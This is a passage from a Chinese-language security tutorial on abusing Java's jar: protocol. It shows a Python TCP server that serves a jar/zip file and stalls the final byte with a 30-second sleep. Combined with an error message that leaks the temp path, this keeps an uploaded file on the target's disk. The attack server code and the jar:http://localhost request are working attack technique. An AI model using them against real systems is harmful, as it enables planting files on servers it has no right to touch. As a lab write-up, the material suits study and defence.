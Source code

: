    ```python
                   '''Content-Type: application/java-archive\r\n\r\n''')
                   self.request.sendall(headers.encode('ascii'))
   
                   self.request.sendall(contents[:-1])
                   time.sleep(30)
                   print(30)
                   self.request.sendall(contents[-1:])
   
               except Exception as e:
                   print ("get error at:"+str(e))
   
   
   if __name__ == '__main__':
   
       jarserver = socketserver.TCPServer((listen_host,listen_port), JarRequestHandler) 
       print ('waiting for connection...') 
       server_thread = threading.Thread(target=jarserver.serve_forever) 
       server_thread.daemon = True 
       server_thread.start() 
       server_thread.join()
   ```

   这个服务器的目的就是接受客户端的请求，然后向客户端发送一个我们运行时就传入的参数指定的文件，但是还没完，实际上我在这里加了一个 sleep(30)，这个的目的我后面再说

   既然是文件上传，那我们又要回到 jar 协议解析文件的过程中了

   > **jar 协议处理文件的过程：**
   >
   > (1) 下载 jar/zip 文件到临时文件中
   >
   > (2) 提取出我们指定的文件
   >
   > (3) 删除临时文件

   那我们怎么找到这个临时的文件夹呢？不用想，肯定是通过报错的形式展现，如果我们请求的

   ```
   jar:http://localhost:9999/jar.zip!/1.php
   ```

   1.php 在这个 jar.zip 中没有的话，java 解析器就会报错，说在这个临时文件中找不到这个文件

   **如下图：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Java%E8%A7%A3%E6%9E%90%E6%8A%A5%E9%94%99.png)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/Java%E8%A7%A3%E6%9E%90%E6%8A%A5%E9%94%99.png)

   既然找到了临时文件的路径，我们就要考虑怎么使用这个文件了（或者说怎么让这个文件能更长时间的停留在我们的系统之中，我想到的方式就是sleep()）但是还有一个问题，因为我们要利用的时候肯定是在文件没有完全传输成果的时候，因此为了文件的完整性，我考虑在传输前就使用 hex 编辑器在文件末尾添加垃圾字符，这样就能完美的解决这个问题

   **下面是我的实验录屏：**

   [![此处输入图片的描述](https://picture-1253331270.cos.ap-beijing.myqcloud.com/test.gif)](https://picture-1253331270.cos.ap-beijing.myqcloud.com/test.gif)
